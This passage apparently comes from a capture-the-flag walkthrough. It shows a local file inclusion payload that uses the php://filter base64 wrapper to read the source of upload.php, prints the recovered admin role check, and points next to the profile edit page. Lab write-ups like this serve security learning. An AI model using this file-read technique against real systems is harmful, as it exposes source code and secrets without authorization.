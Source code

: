 ## Admin role impersonate

There is a one php file `upload.php` that still left. try to get it from `aaron` login session Got permission error.

![](screenshots/upload-denied.png)


Using lfi to read the source code of `upload.php` with php Wrapper `http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=<file>`
```php
<?php
include("admin_auth_check.php");

// ... [snip] ...
```

`upload.php` only allowed for admin by checking logged in user role with `admin_auth_check.php`.
```php
<?php

include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}

?>
```

Next thing to check is the profile edit page.
